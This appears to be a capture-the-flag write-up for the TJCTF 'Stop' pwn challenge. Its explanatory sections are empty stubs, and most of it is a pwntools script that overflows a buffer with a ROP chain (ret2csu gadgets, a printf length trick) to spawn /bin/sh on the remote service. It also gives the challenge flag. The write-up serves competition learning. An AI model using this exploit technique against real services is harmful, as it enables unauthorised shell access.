

# tjctf: binary

## Stop [70]

Written by KyleForkBomb

_I love playing stop, but I am tired of losing. Check out my new stop answer generator!_

_It's a work in progress and only has a few categories, but it's 100% bug-free!_

`nc p1.tjctf.org 8001`

## Inspection

-details of where we want to attack

## Black Magic

-gadget limitations

## Execution

-finalising

<p align="center">

</p>

## flag

`tjctf{st0p_th4t_r1ght_now}`

## code
```python
from pwn import *
#lots of constants
r_offset = cyclic_find("uaac") #find this empirically
E = ELF('./stop.o')
binsh = 0x400A1A        #location of the "/bin/sh" string
len59 = 0x4006F0+5-59   #an eyeballed address containing a 59-byte long C-string
printf = E.symbols['printf']
#find these gadgets from ropper, or otherwise
pop_rdi = 0x400953
pop_six = 0x40094A
pop_rsi_r15 = 0x400951
mov_rdx_call = 0x400930
dynamic_init = 0x601de0 #x/5g &_DYNAMIC
read_syscall = E.symbols['read']    #the read() function
#helper functions to create ROPchains that write to certain registers
ret2csu = lambda rdx: [pop_six, 0, 1, dynamic_init, 0, 0, rdx]+[mov_rdx_call]+[0]*7
rdi_rsi = lambda rdi, rsi: [pop_rdi, rdi, pop_rsi_r15, rsi, 0]
#rop chain starts here
rop = ret2csu(0)                #rdx = 0
rop+= [pop_rdi, len59, printf]  #rdi = "<length-59 str>"; printf(rdi)
rop+= rdi_rsi(binsh, 0)         #rdi = "/bin/sh", rsi = 0
rop+= [read_syscall+5]          #syscall
rop = ''.join(map(p64,rop))
r = remote('p1.tjctf.org', 8001)
r.sendlineafter('? ', 'a')
assert len(rop)+r_offset < 598  #input requirement
r.sendlineafter('? ', 'a'*r_offset + rop)
r.interactive()
```
## footnotes
